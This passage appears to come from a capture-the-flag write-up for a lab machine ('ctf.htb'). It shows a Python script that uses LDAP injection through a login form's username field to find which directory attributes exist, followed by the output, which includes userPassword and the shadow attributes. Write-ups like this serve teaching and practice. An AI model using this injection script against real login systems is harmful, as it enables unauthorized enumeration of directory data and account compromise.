 The first thing I did next was to try to find out which LDAP attributes are valid in the database. The list of common LDAP attributes is available on multiple websites, and we already have a hint from the HTML comments that the application uses a common LDAP attribute to store the token.

I modified my script to run through the entire list of attributes and try a query resulting in: `(uid=*)(attribute_to_test=*)`. If the attribute exists, the query should return a result and I should get the `Cannot login` message.

```python
#!/usr/bin/python

import re
import requests
import time
import urllib

def main():
	with open("attributes.txt") as f:
		attributes = f.read().splitlines()

	for attribute in attributes:

		payload = "*)({}=*".format(attribute)
		data = {
			"inputUsername": urllib.quote(payload),
			"inputOTP": "12345",
		}

		proxy = {"http": "http://127.0.0.1:8080"}
		
		time.sleep(0.5)
		r = requests.post("http://ctf.htb/login.php", data=data, proxies=proxy)
		m = re.search(r'<form action="/login.php" method="post" >\s+<div class="form-group row">\s+<div class="col-sm-10">\s+(.*)</div>', r.text)
		if m:
			try:
				if "Cannot login" in m.group(1):
					print("Attribute {}: exists!".format(attribute))				
			except IndexError:
				print("Something weird happened")

if __name__== "__main__":
	main()
```

Results are shown here:
```
# python ldapattributes.py 
Attribute cn: exists!
Attribute gidNumber: exists!
Attribute homeDirectory: exists!
Attribute loginShell: exists!
Attribute mail: exists!
Attribute pager: exists!
Attribute shadowLastChange: exists!
Attribute shadowMax: exists!
Attribute shadowMin: exists!
Attribute shadowWarning: exists!
Attribute sn: exists!
Attribute uid: exists!
Attribute uidNumber: exists!
Attribute userPassword: exists!
```
